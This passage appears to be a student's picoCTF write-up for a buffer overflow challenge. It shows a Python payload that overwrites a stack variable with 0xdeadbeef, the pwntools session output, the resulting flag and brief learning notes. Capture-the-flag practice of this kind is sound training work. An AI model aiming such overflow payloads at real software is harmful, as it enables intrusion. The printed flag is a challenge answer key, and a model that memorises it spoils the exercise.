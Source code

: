 ```python
line = b'1' * 264 + b'\xef\xbe\xad\xde\x00\x00\x00\x00'
```

```zsh
[x] Opening connection to mars.picoctf.net on port 31890
[x] Opening connection to mars.picoctf.net on port 31890: Trying 3.15.72.211
[+] Opening connection to mars.picoctf.net on port 31890: Done
b'111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\xef\xbe\xad\xde\x00\x00\x00\x00'
______________________________________________________________________
[*] Switching to interactive mode
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
[*] Got EOF while reading in interactive
```
## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Notes and Concepts Learnt:
- I learnt the use of `pwn` tools and how it is very useful to solve especially Binary Exploitation problems.
- I still have to read how to determine padding while sending these payloads and how it actually works, here I just used trial and error.
